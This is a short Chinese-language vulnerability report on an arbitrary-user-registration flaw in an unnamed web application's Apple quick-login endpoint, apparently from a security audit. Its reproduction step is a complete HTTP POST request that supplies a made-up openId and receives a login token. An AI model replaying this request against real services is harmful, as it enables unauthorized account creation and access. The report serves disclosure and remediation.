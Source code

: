 ## 【中危】任意用户注册（apple快捷登陆）

### 漏洞详情

新建用户的方式有很多，其中apple快捷登陆，没有进一步确认用户身份，默认不开启强制手机号注册，导致只需要提供 openId 就能创建新用户。

### 漏洞复现

对`http://localhost:45600/api/apple_login`发起请求，修改`openId`为随机数值。

```php
POST /api/apple_login HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 28

{"openId":"asdasdasdqweqwe"}
```

发送请求包后即可获得Token。

![document_image_rId78.png](assets/1703831601-e8737fb1a8d1208905c166a581d157cd.png)
